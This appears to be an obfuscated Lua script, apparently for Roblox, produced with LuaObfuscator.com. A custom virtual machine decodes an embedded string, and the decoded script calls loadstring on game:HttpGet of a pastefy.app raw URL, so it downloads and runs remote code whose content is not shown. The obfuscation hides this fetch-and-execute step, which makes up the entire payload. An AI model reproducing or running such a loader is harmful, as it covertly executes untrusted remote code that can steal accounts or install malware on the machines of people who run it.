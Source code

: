 --[[
 .____                  ________ ___.    _____                           __                
 |    |    __ _______   \_____  \\_ |___/ ____\_ __  ______ ____ _____ _/  |_  ___________ 
 |    |   |  |  \__  \   /   |   \| __ \   __\  |  \/  ___// ___\\__  \\   __\/  _ \_  __ \
 |    |___|  |  // __ \_/    |    \ \_\ \  | |  |  /\___ \\  \___ / __ \|  | (  <_> )  | \/
 |_______ \____/(____  /\_______  /___  /__| |____//____  >\___  >____  /__|  \____/|__|   
         \/          \/         \/    \/                \/     \/     \/                   
          \_Welcome to LuaObfuscator.com   (Alpha 0.10.8) ~  Much Love, Ferib 

]]--

local v0=tonumber;local v1=string.byte;local v2=string.char;local v3=string.sub;local v4=string.gsub;local v5=string.rep;local v6=table.concat;local v7=table.insert;local v8=math.ldexp;local v9=getfenv or function() return _ENV;end ;local v10=setmetatable;local v11=pcall;local v12=select;local v13=unpack or table.unpack ;local v14=tonumber;local function v15(v16,v17,...) local v18=1;local v19;v16=v4(v3(v16,5),"..",function(v30) if (v1(v30,2)==81) then v19=v0(v3(v30,1,1));return "";else local v83=0;local v84;while true do if (v83==0) then v84=v2(v0(v30,16));if v19 then local v99=v5(v84,v19);v19=nil;return v99;else return v84;end break;end end end end);local function v20(v31,v32,v33) if v33 then local v85=(v31/((5 -3)^(v32-1)))%((5 -3)^(((v33-(1 -0)) -(v32-(2 -1))) + (620 -(555 + 64)))) ;return v85-(v85%(932 -(857 + 74))) ;else local v86=568 -(367 + 201) ;local v87;while true do if (v86==(927 -(214 + 713))) then v87=((878 -(282 + 595)) + 1)^(v32-((1638 -(1523 + 114)) + 0)) ;return (((v31%(v87 + v87))>=v87) and 1) or 0 ;end end end end local function v21() local v34=0;local v35;while true do if ((1 + 0)==v34) then return v35;end if (v34==0) then v35=v1(v16,v18,v18);v18=v18 + (1 -(1270 -(226 + 1044))) ;v34=1066 -(68 + 997) ;end end end local function v22() local v36,v37=v1(v16,v18,v18 + (8 -6) );v18=v18 + (119 -(32 + 85)) ;return (v37 * (251 + 5)) + v36 ;end local function v23() local v38,v39,v40,v41=v1(v16,v18,v18 + 1 + (3 -1) );v18=v18 + 4 ;return (v41 * (16778173 -(892 + 65))) + (v40 * (156337 -90801)) + (v39 * (472 -216)) + v38 ;end local function v24() local v42=350 -(87 + 263) ;local v43;local v44;local v45;local v46;local v47;local v48;while true do if (v42==(20 -(4 + 6 + 8))) then v47=v20(v44,201 -(67 + 113) ,31);v48=((v20(v44,24 + (1431 -(630 + 793)) )==(2 -1)) and  -((886 -(261 + 624)) + 0)) or (1 -0) ;v42=11 -8 ;end if (v42==((3229 -2276) -((1424 -622) + 150))) then v45=1487 -((2078 -(1020 + 60)) + 488) ;v46=(v20(v44,2 -1 ,20) * ((3 -(4 -3))^(24 + 4 + 4))) + v43 ;v42=774 -((691 -490) + 571) ;end if (v42==(1000 -(915 + 82))) then if (v47==(0 -0)) then if (v46==(1138 -(116 + 1022))) then return v48 * (0 + 0) ;else v47=1;v45=0 -0 ;end elseif (v47==((4981 -(760 + 987)) -(1069 + 118))) then return ((v46==(0 -0)) and (v48 * (1/((1913 -(1789 + 124)) -(766 -(745 + 21)))))) or (v48 * NaN) ;end return v8(v48,v47-1023 ) * (v45 + (v46/((1 + 1)^(92 -40)))) ;end if (v42==(0 + 0)) then v43=v23();v44=v23();v42=792 -(368 + 423) ;end end end local function v25(v49) local v50;if  not v49 then local v88=0 + 0 ;while true do if (v88==((0 + 0) -0)) then v49=v23();if (v49==((1055 -(87 + 968)) -0)) then return "";end break;end end end v50=v3(v16,v18,(v18 + v49) -1 );v18=v18 + v49 ;local v51={};for v66=(4 -3) + 0 , #v50 do v51[v66]=v2(v1(v3(v50,v66,v66)));end return v6(v51);end local v26=v23;local function v27(...) return {...},v12("#",...);end local function v28() local v52=(function() return 0;end)();local v53=(function() return;end)();local v54=(function() return;end)();local v55=(function() return;end)();local v56=(function() return;end)();local v57=(function() return;end)();local v58=(function() return;end)();local v59=(function() return;end)();while true do local v68=(function() return 0;end)();while true do if (v68==(0 -0)) then if (v52==(75 -(71 + 3))) then v56=(function() return {};end)();v57=(function() return {v54,v55,nil,v56};end)();v58=(function() return v23();end)();v52=(function() return 4 -2 ;end)();end if (v52~=3) then else for v100= #"~",v23() do local v101=(function() return 0 -0 ;end)();local v102=(function() return;end)();while true do if (v101==(241 -(187 + 54))) then v102=(function() return v21();end)();if (v20(v102, #"]", #"~")==(780 -(162 + 618))) then local v144=(function() return 0 + 0 ;end)();local v145=(function() return;end)();local v146=(function() return;end)();local v147=(function() return;end)();while true do if (v144~=2) then else if (v20(v146, #">", #"\\")== #"\\") then v147[2 + 0 ]=(function() return v59[v147[2]];end)();end if (v20(v146,2,3 -1 )== #" ") then v147[ #"91("]=(function() return v59[v147[ #"-19"]];end)();end v144=(function() return 4 -1 ;end)();end if (v144~=(1 + 2)) then else if (v20(v146, #"gha", #"xxx")~= #"<") then else v147[ #".com"]=(function() return v59[v147[ #"http"]];end)();end v54[v100]=(function() return v147;end)();break;end if (v144==(1637 -(1373 + 263))) then v147=(function() return {v22(),v22(),nil,nil};end)();if (v145==0) then local v168=(function() return 0;end)();local v169=(function() return;end)();while true do if (v168~=0) then else v169=(function() return 1000 -(451 + 549) ;end)();while true do if (v169==0) then v147[ #"gha"]=(function() return v22();end)();v147[ #".dev"]=(function() return v22();end)();break;end end break;end end elseif (v145== #">") then v147[ #"91("]=(function() return v23();end)();elseif (v145==(1 + 1)) then v147[ #"91("]=(function() return v23() -((2 -0)^(26 -10)) ;end)();elseif (v145== #"19(") then local v180=(function() return 1384 -(746 + 638) ;end)();while true do if (v180~=0) then else v147[ #"nil"]=(function() return v23() -((1 + 1)^16) ;end)();v147[ #"0313"]=(function() return v22();end)();break;end end end v144=(function() return 2;end)();end if (v144~=0) then else local v162=(function() return 0;end)();while true do if (v162==1) then v144=(function() return 1;end)();break;end if (v162==0) then v145=(function() return v20(v102,2, #"asd");end)();v146=(function() return v20(v102, #"0836",6);end)();v162=(function() return 1;end)();end end end end end break;end end end for v103= #">",v23() do v55,v103,v28=(function() return v53(v55,v103,v28);end)();end return v57;end v68=(function() return 1 -0 ;end)();end if (1==v68) then if ((341 -(218 + 123))==v52) then v53=(function() return function(v104,v105,v106) local v107=(function() return 1581 -(1535 + 46) ;end)();local v108=(function() return;end)();while true do if (v107~=0) then else v108=(function() return 0 + 0 ;end)();while true do if (v108~=(0 + 0)) then else local v159=(function() return 0;end)();while true do if (v159~=(560 -(306 + 254))) then else v104[v105-#"," ]=(function() return v106();end)();return v104,v105,v106;end end end end break;end end end;end)();v54=(function() return {};end)();v55=(function() return {};end)();v52=(function() return 1;end)();end if (v52~=2) then else local v97=(function() return 0 + 0 ;end)();local v98=(function() return;end)();while true do if (0~=v97) then else v98=(function() return 0;end)();while true do if ((0 -0)~=v98) then else v59=(function() return {};end)();for v152= #"~",v58 do local v153=(function() return 0;end)();local v154=(function() return;end)();local v155=(function() return;end)();local v156=(function() return;end)();while true do if (v153==(1467 -(899 + 568))) then v154=(function() return 0 + 0 ;end)();v155=(function() return nil;end)();v153=(function() return 1;end)();end if (v153==(2 -1)) then v156=(function() return nil;end)();while true do if ((603 -(268 + 335))~=v154) then else local v174=(function() return 290 -(60 + 230) ;end)();local v175=(function() return;end)();while true do if (v174==0) then v175=(function() return 0;end)();while true do if (v175~=1) then else v154=(function() return 573 -(426 + 146) ;end)();break;end if (v175==0) then v155=(function() return v21();end)();v156=(function() return nil;end)();v175=(function() return 1 + 0 ;end)();end end break;end end end if (v154~=1) then else if (v155== #" ") then v156=(function() return v21()~=0 ;end)();elseif (v155==2) then v156=(function() return v24();end)();elseif (v155~= #"nil") then else v156=(function() return v25();end)();end v59[v152]=(function() return v156;end)();break;end end break;end end end v98=(function() return 1457 -(282 + 1174) ;end)();end if (v98==(812 -(569 + 242))) then v57[ #"91("]=(function() return v21();end)();v52=(function() return 8 -5 ;end)();break;end end break;end end end break;end end end end local function v29(v60,v61,v62) local v63=v60[1 + 0 ];local v64=v60[1026 -(706 + (1979 -(1477 + 184))) ];local v65=v60[853 -(20 + 830) ];return function(...) local v69=v63;local v70=v64;local v71=v65;local v72=v27;local v73=1252 -((982 -261) + 494 + 36) ;local v74= -(1272 -(945 + 326));local v75={};local v76={...};local v77=v12("#",...) -(1 + 0) ;local v78={};local v79={};for v89=738 -(542 + (1052 -(564 + 292))) ,v77 do if (v89>=v71) then v75[v89-v71 ]=v76[v89 + (701 -(271 + (739 -310))) ];else v79[v89]=v76[v89 + 1 + 0 ];end end local v80=(v77-v71) + 1 + 0 ;local v81;local v82;while true do local v90=1500 -(1408 + 92) ;while true do if (v90==(1086 -(461 + 625))) then v81=v69[v73];v82=v81[1289 -(993 + 295) ];v90=2 -1 ;end if (v90==(1 + 0)) then if (v82<=(1174 -(418 + 753))) then if (v82<=(1 + (0 -0))) then if (v82>(0 + 0)) then local v109;local v110,v111;local v112;local v113;v79[v81[1 + 1 ]]={};v73=v73 + 1 + (304 -(244 + 60)) ;v81=v69[v73];v79[v81[7 -5 ]]=v62[v81[3]];v73=v73 + (530 -(406 + 123)) ;v81=v69[v73];v79[v81[1771 -(1749 + 20) ]]=v62[v81[380 -(142 + 235) ]];v73=v73 + (4 -3) ;v81=v69[v73];v113=v81[1 + 1 ];v112=v79[v81[1325 -(1249 + 73) ]];v79[v113 + 1 + 0 + 0 ]=v112;v79[v113]=v112[v81[1149 -(466 + 679) ]];v73=v73 + 1 + 0 ;v81=v69[v73];v79[v81[4 -2 ]]=v81[2 + 1 ];v73=v73 + (2 -1) ;v81=v69[v73];v113=v81[1902 -(106 + 1794) ];v110,v111=v72(v79[v113](v13(v79,v113 + 1 + 0 ,v81[1 + 2 ])));v74=(v111 + v113) -(2 -1) ;v109=0 -0 ;for v149=v113,v74 do v109=v109 + (115 -(4 + 110)) ;v79[v149]=v110[v109];end v73=v73 + (585 -(57 + 527)) ;v81=v69[v73];v113=v81[(1905 -(41 + 435)) -(41 + 1386) ];v79[v113]=v79[v113](v13(v79,v113 + (104 -(17 + 86)) ,v74));v73=v73 + 1 + 0 ;v81=v69[v73];v79[v81[1331 -((1798 -(938 + 63)) + 532) ]]();v73=v73 + (1 -0) ;v81=v69[v73];do return;end else local v129=0 -0 ;local v130;local v131;local v132;local v133;while true do if ((3926<=4134) and (v129==(0 -0))) then v130=v81[1204 -(373 + 829) ];v131,v132=v72(v79[v130](v13(v79,v130 + ((129 + 38) -((1247 -(936 + 189)) + 44)) ,v81[5 -2 ])));v129=(1 + 2) -2 ;end if (v129==(2 + 0)) then for v163=v130,v74 do local v164=0 + 0 ;while true do if ((v164==(0 -(1613 -(1565 + 48)))) or (164>=2785)) then v133=v133 + (66 -(30 + 35)) ;v79[v163]=v131[v133];break;end end end break;end if (v129==(1 -0)) then v74=(v132 + v130) -(1 + 0) ;v133=0;v129=1259 -(1043 + 214) ;end end end elseif (v82>(218 -(26 + 16 + 174))) then local v134=v81[7 -5 ];local v135=v79[v81[1141 -(782 + 356) ]];v79[v134 + 1 + 0 ]=v135;v79[v134]=v135[v81[2 + 2 ]];else v79[v81[1506 -(363 + 1141) ]]();end elseif (v82<=((1484 -(176 + 91)) -(323 + 889))) then if ((v82>(10 -6)) or (525==2109)) then v79[v81[582 -(361 + 219) ]]={};else v79[v81[322 -((137 -84) + 267) ]]=v81[1 + 2 ];end elseif (v82<=(1981 -((2819 -906) + 62))) then local v142=v81[2 + 0 ];v79[v142]=v79[v142](v13(v79,v142 + (414 -(15 + 398)) ,v74));elseif ((33==33) and (v82>7)) then do return;end else v79[v81[1935 -(565 + 1368) ]]=v62[v81[985 -(18 + 964) ]];end v73=v73 + (3 -2) ;break;end end end end;end return v29(v28(),{},v17)(...);end return v15("LOL!043Q00030A3Q006C6F6164737472696E6703043Q0067616D6503073Q00482Q747047657403203Q00682Q7470733A2Q2F706173746566792E612Q702F67747864725345372F72617700094Q00017Q00122Q000100013Q00122Q000200023Q00202Q00020002000300122Q000400046Q000200046Q00013Q00024Q0001000100016Q00017Q00",v9(),...);
